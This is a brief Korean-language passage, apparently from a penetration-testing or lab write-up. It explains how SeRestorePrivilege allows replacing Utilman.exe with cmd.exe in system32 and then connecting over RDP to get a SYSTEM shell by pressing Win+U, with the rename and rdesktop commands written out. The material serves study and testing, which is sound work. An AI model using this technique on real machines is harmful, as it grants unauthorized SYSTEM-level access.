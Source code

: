 SeRestorePrivilege 가 있다는 말은 모든 파일시스템에 대한 쓰기 권한이 있음을 뜻한다.

### SeRestorePrivilege Exploit
우선 `C:\Windows\system32` 경로 내의 Utilman.exe 를 cmd.exe 로 바꿔치기 한다.
```cmd
ren Utilman.exe Utilman.old
ren cmd.exe Utilman.exe
```

그리고 RDP 로 로그인 없이 접근한다.
```bash
rdesktop 192.168.81.165
```

이후 win + u 를 누르면 system 권한의 쉘이 떨어진다.
